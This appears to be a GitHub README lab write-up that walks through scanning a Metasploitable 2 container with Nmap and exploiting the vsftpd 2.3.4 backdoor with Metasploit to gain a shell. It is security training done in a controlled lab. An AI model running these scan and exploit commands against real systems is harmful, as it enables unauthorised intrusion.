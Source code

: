 # Project 5 – Exploiting the vsftpd Backdoor

This project demonstrates how I discovered and exploited a known backdoor vulnerability in the vsftpd 2.3.4 FTP server using the Metasploit Framework within a controlled lab environment.

---

## 🔍 Tools Used
- **Metasploit Framework**
- **Nmap**
- **Ubuntu 20.04.6 LTS**
- **Metasploitable 2 (Ubuntu 8.04)**
- **Docker**

---

## ⚙️ Steps Taken

1. **Launched Metasploitable**
   - Command: `docker start -ai metasploitable`
   - Verified shell access as `root@...`
<img width="572" height="597" alt="image" src="https://github.com/user-attachments/assets/082cd63b-1988-4c9e-b004-9e3a52d5b9dc" />


2. **Verified OS Versions**
   - Command: `lsb_release -a`
   - Ubuntu Host: 20.04.6 (focal)
   - Metasploitable: Ubuntu 8.04 (hardy)
<img width="582" height="605" alt="image" src="https://github.com/user-attachments/assets/09764e0d-e359-441d-89ce-d54b64dc2a4b" />
<img width="582" height="611" alt="image" src="https://github.com/user-attachments/assets/bfadd28d-27df-4489-bbf0-6aa367e5eb22" />


3. **Identified Target IP**
   - Ubuntu (host): `docker0` IP: `172.17.0.1`
   - Metasploitable: `eth0` IP: `172.17.0.2` (yours may vary)
   - Command: `ifconfig`
<img width="1063" height="136" alt="image" src="https://github.com/user-attachments/assets/bcc5d22f-b227-479c-bd72-9cbb589cd48f" />


4. **Performed Nmap Recon**
   - Full port scan: `nmap -p0-65535 172.17.0.2`
   - Vulnerability scan on FTP port:  
     `nmap --script vuln -p 21 172.17.0.2`
   - Identified: `vsftpd 2.3.4` backdoor vulnerability
<img width="1054" height="630" alt="image" src="https://github.com/user-attachments/assets/14a6a4c9-ee5e-4df4-9c1d-3e0545f163a1" />
<img width="1052" height="334" alt="image" src="https://github.com/user-attachments/assets/d6a1bcf7-551c-4597-9913-2c85b289f725" />


5. **Launched Metasploit**
   - Command: `msfconsole`
   - Loaded module: `use exploit/unix/ftp/vsftpd_234_backdoor`
   - Set target IP: `set RHOSTS 172.17.0.2`
   - Ran exploit: `exploit`
   - Result: Shell access to Metasploitable
<img width="689" height="697" alt="image" src="https://github.com/user-attachments/assets/0a19cc68-0d4f-4466-96a1-3ffeacf597ac" />
<img width="1393" height="640" alt="image" src="https://github.com/user-attachments/assets/c16bdd31-ac39-4f65-b278-75cbd1c256d6" />
<img width="1054" height="622" alt="image" src="https://github.com/user-attachments/assets/872469e7-1293-4708-aeae-d6ed08cb093f" />
